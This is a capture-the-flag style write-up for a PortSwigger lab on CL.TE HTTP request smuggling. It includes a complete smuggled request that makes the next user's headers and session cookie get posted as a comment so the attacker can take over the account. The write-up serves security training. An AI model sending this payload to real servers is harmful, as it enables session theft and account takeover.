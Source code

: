 # [Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

## Detected CL.TE

- burpsuite active scan: detected http request smuggling
- burpsuite `HTTP request smuggler` extension: detected CL.TE
- smuggler.py: `[tabprefix1]   : Potential CLTE Issue Found`

## Analysis

post comment function:

  ```http
  POST /post/comment HTTP/1.1

  csrf=uSrOXyGsr0GDgDojiDSSOLGLrR1EWiLz&postId=4&comment=test&name=test&email=lkj%40jhglk&website=
  ```

## Solutions

we use request smuggling to induce victim to post comment with the content is the victim's HTTP headers:

```http
POST / HTTP/1.1^M$
Host: 0a9e00ee030f6ad5c0d44f18005200eb.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 313^M$
tRANSFER-ENCODING: chunked^M$
^M$
0^M$
^M$
POST /post/comment HTTP/1.1^M$
Host: 0a9e00ee030f6ad5c0d44f18005200eb.web-security-academy.net^M$
Cookie: session=wiener_session^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 777^M$
^M$
csrf=wiener_csrf&postId=1&name=test&email=lkj%40jhglk&website=&comment= 
```

wait for about 1 minute without sending any requests, then go to the comments section:

![victim-session.png](./../img/lab-9-victim-session.png)

